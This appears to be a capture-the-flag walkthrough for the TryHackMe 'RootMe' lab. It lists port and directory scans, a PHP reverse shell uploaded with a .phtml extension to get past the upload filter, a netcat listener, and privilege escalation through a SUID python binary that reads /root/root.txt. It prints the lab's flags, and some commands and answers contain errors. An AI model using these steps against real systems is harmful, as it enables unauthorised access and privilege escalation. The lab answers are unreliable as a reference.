 # RootMe1
![root](https://user-images.githubusercontent.com/32848915/196031503-cb04f77b-c55a-4296-8bf2-9f24b0b1196f.PNG)

🔴️Task 2:
	⚠️Scan the machine, how many ports are open?
		nmap -sC -sV -oN 10.10.188.190
			==> answer : 2
			
	⚠️What version of Apache is running?
		==> answer : 2.4.29
		
	⚠️What service is running on port 22?
		==> answer : 22
		
	⚠️What is the hidden directory??
		obuster dir -u http://10.10.188.190  -w /usr/share/dirbuster/wordlists directory-list-2.3-medium.txt
		==> answer : /panel/
		

🔴️Task 3: Getting a shell
	⚠️Find a form to upload and get a reverse shell, and find the flag.
		step1:
			git clone https://github.com/pentestmonkey/php-reverse-shell.git
			chmod +x *
			
		step2:
			git clone https://github.com/pentestmonkey/php-reverse-shell.git
			mv php-reverse-shell.php php_reverse_shell.phtml
			
		nc -lvnp 4444
			$ whoami
			?www-data
			cd /var/www
			cat user.txt
				THM{y0u_g0t_a_sh3ll}
	
🔴️Task4 : Privilege escalation
	⚠️ Search for files with SUID permission, which file is weird?
		find / -perm -u=s -type f 2>/dev/null
			/usr/bin/python
			
	⚠️ Find a form to escalate your privileges:
		
	
	⚠️ root.txt
		/usr/bin/python -c 'print(open("/root/root.txt").read())'
    		cat /root/root.txt
			==> THM{pr1v1l3g3_3sc4l4t10n}
    
    
   
  
